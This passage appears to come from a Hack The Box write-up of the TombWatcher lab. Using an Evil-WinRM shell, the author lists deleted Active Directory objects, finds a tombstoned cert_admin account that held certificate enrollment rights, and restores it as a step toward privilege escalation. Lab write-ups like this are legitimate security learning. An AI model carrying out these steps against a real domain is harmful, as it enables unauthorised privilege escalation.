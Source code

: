 ```powershell
*Evil-WinRM* PS C:\Users\john\Desktop> Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects
```
![1](/assets/img/favicons/tombwatcher-htb/11.png)

#### 📍 Findings

- The deleted account name is **`cert_admin`** (we see multiple tombstones with different GUIDs).
- Those are **tombstone objects** → AD keeps them around (by default 180 days) before garbage collecting.
- That matches BloodHound: the orphaned SID (`…-1111`) belonged to `cert_admin`.

---

#### ⚡ Why this matters

- `cert_admin` had **Enroll rights** on the **WebServer certificate template**.
- Since the user is deleted, those rights are **dangling** (no one can use them directly).
- But we now know the **deleted account’s name and purpose** and it was likely an account specifically created for **Certificate Services administration**.

```powershell
*Evil-WinRM* PS C:\Users\john\Documents> Restore-ADObject -Identity "c1f1f0fe-df9c-494c-bf05-0679e181b358"
*Evil-WinRM* PS C:\Users\john\Documents> Get-ADUser -Identity cert_admin

DistinguishedName : CN=cert_admin,OU=ADCS,DC=tombwatcher,DC=htb
Enabled           : True
GivenName         : cert_admin
Name              : cert_admin
ObjectClass       : user
ObjectGUID        : c1f1f0fe-df9c-494c-bf05-0679e181b358
SamAccountName    : cert_admin
SID               : S-1-5-21-1392491010-1358638721-2126982587-1110
Surname           : cert_admin
UserPrincipalName :
```
